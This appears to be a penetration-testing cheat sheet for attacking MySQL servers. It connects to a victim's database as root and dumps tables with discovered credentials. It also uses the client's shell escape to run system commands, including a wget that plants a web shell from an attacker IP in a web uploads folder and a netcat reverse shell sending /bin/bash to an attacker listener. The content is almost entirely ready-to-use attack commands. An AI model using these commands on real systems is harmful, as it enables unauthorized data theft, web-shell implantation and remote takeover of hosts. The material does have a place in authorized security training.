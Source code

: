 Connect to and query MySQL database 
------------------------------------
```
mysql -u root -p -h <victims-ip>
<password>
show databases;
use <databasename>;
show tables;
SELECT * FROM <tablename>;
```
MySQL example (use when creds are discovered)
--------------------------
```
mysql -u <db-username> --password=<password> -e "SHOW DATABASES;"
returned results <db1 db2 db3>

mysql -u <db-username> --password=<password> -D db1 -e "SHOW TABLES;"
returned results <table1 table2 table3 table4>

mysql -u <db-username> --password=<password> -D db1 -e "SELECT * FROM table1;"
returned results <blah blah blah>

mysql -u <db-username> --password=<password> -D db1 -e "select * from table1 WHERE username like 'admin%';"
```

MySQL execute shell commands
-----------------------------
```
mysql -u <username> --password=<password> -e "\! ls -l"
mysql -u <username> --password=<password> -e "\! whoami"
mysql -u <username> --password=<password> -e "\! wget -O /var/www/uploads/shell.??? http://xxx.xxx.xxx.xxx/shell.???"

# On attacker
# nc -lvvnp 1337
mysql -u <username> --password=<password> -e "\! nc xxx.xxx.xxx.xxx 1337 -e /bin/bash"
```

